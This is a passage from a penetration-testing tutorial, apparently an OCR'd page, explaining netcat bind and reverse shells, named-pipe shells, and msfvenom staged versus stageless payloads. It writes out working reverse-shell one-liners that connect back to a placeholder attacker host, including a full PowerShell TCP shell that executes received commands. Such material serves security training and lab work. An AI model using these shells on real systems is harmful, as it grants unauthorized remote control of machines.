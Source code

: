 In some versions of netcat (including the `nc.exe` Windows version included with Kali at `/usr/share/windows-resources/binaries`, and the version used in Kali itself: `netcat-traditional`) there is a `-e` option which allows us to execute a process on connection. For example, as a listener: `nc -lvnp <port> -e /bin/bash`. Connecting to the above listener with netcat would result in a bind shell on the target.

Equally, for a reverse shell, connecting back with `nc <LOCAL-IP> <PORT> -e /bin/bash` would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure. On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell: `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`.

The command first creates a named pipe at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.

A very similar command can be used to send a netcat reverse shell: `mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`.

This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell. An extremely useful and standard one-liner PSH reverse shell is: `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`.

In order to use this, we need to replace `<ip>` and `<port>` with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell.

For other common reverse shell payloads, ***PayloadsAllTheThings*** is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages.

## msfvenom

Msfvenom: the one-stop-shop for all things payload related.

Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit. However, it can also be used to generate payloads in various formats (e.g. `.exe`, `.aspx`, `.war`, `.py`).

The standard syntax for msfvenom is as follows: `msfvenom -p <PAYLOAD> <OPTIONS>`.

### Staged vs Stageless

Before we go any further, there are another two concepts which must be introduced:
* **Staged payloads** are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts: a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener usually the Metasploit `multi/handler`.
* **Stageless payloads** are more common. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.
